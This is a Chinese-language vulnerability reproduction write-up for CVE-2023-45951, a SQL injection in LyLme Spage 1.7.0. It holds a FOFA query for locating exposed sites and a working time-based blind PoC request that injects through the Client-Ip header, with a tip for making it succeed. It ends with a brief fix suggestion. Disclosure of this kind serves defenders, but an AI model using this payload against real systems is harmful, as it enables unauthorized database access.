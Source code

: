 
# 六零导航页SQL注入漏洞复现（CVE-2023-45951）

### 0x01 产品简介

   LyLme Spage（六零导航页）是中国六零（LyLme）开源的一个导航页面。致力于简洁高效无广告的上网导航和搜索入口，支持后台添加链接、自定义[搜索引擎](https://so.csdn.net/so/search?q=%E6%90%9C%E7%B4%A2%E5%BC%95%E6%93%8E&spm=1001.2101.3001.7020)，沉淀最具价值链接，全站无商业推广，简约而不简单。

### 0x02 漏洞概述

   LyLme Spage v1.7.0版本存在[安全漏洞](https://so.csdn.net/so/search?q=%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)，该漏洞源于通过function.php的$userip参数发现包含 SQL 注入漏洞，未经授权的攻击者可通过该漏洞获取敏感信息,进一步利用可造成主机失陷。

### 0x03 影响范围

LyLme Spage 1.7.0

### 0x04 复现环境

FOFA：title=="上网导航 - LyLme Spage"

![](assets/1698896305-9a216202e3e55b8d4794f19e33f63359.png)

### 0x05 漏洞复现

PoC

```cobol
POST /apply/index.php?submit=post HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Client-Ip: 0'>if(1,sleep(10),2)>'

url=http%3A%2F%2Fbaidu.com&name=test&group_id=1&icon=&authcode=
```

延时10秒 

![](assets/1698896305-308b5511202aac5bbe69d9646e9b8ea1.png)

PS：漏洞存在于 HTTP Header 的 `Client-Ip` 字段，请求体中url字段值每请求一次就需要更换一次，不然无法成功

### 0x06 修复建议 

 在get\_real\_ip 中检查验证IP合法性，[防止SQL注入](https://so.csdn.net/so/search?q=%E9%98%B2%E6%AD%A2SQL%E6%B3%A8%E5%85%A5&spm=1001.2101.3001.7020)
